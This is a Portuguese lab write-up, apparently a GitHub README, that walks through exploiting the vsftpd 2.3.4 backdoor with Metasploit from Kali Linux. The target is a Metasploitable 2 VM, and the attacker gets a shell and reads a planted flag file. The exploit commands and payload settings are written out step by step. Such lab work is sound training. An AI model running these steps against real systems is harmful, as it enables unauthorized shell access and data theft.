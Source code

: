 # Explorar falhas no protocolo FTP

Este projeto demonstra como explorar uma vulnerabilidade no protocolo FTP utilizando o Metasploit para acessar um arquivo em uma máquina vulnerável.

## Objetivo

Encontrar e acessar um arquivo de texto criado em uma máquina virtual vulnerável (Metasploitable) através de uma outra máquina (Kali Linux).

## Ferramentas Utilizadas

- **Kali Linux**
- **Metasploitable 2** (máquina vulnerável)
- **Metasploit Framework**

## Procedimento

### 1. Criar um arquivo na VM vulnerável
Na máquina Metasploitable, criei um arquivo `flag.txt` com algum conteúdo:
```bash
"teste de penet"
```

Comando para criar o arquivo:
```bash
echo "teste de penet" > flag.txt
```

Localização do arquivo: `/home/msfadmin/flag.txt`


Verificação de arquivo e ip da máquina vulnerável:

![image](https://github.com/user-attachments/assets/de124486-1ebc-4ffe-bd53-19b07ed4412e)


### 2. Configuração do Metasploit na Kali Linux

No Kali Linux, execute os seguintes passos:

1. Abra o Metasploit com o comando:
   ```bash
   msfconsole
   ```

2. Escolha o exploit `vsftpd_234_backdoor`:
   ```bash
   use unix/ftp/vsftpd_234_backdoor
   ```

3. Configure o IP de destino (a máquina vulnerável):
   ```bash
   set rhosts 192.168.56.101
   ```

4. Verifique as opções configuradas:
   ```bash
   show options
   ```

5. Configure o payload para interagir com o sistema:
   ```bash
   set payload payload/cmd/unix/interact
   ```

6. Execute o exploit:
   ```bash
   exploit
   ```

7. Verifique o IP para confirmar que é o mesmo da VM vulnerável:
   ```bash
   ip addr
   ```
![image](https://github.com/user-attachments/assets/f6249f18-0122-4d4a-835e-4f1e40bbad2b)


### 3. Acessar o arquivo na máquina vulnerável

1. Navegue até o diretório do arquivo:
   ```bash
   ls
   cd home
   cd msfadmin
   ls
   ```

2. Abra o arquivo para ler o conteúdo:
   ```bash
   nano flag.txt
   ```
![image](https://github.com/user-attachments/assets/bfc35960-ca98-403c-9396-8a678ba1ddfe)

***Este ataque é realizado em ambiente controlado para fins educacionais***


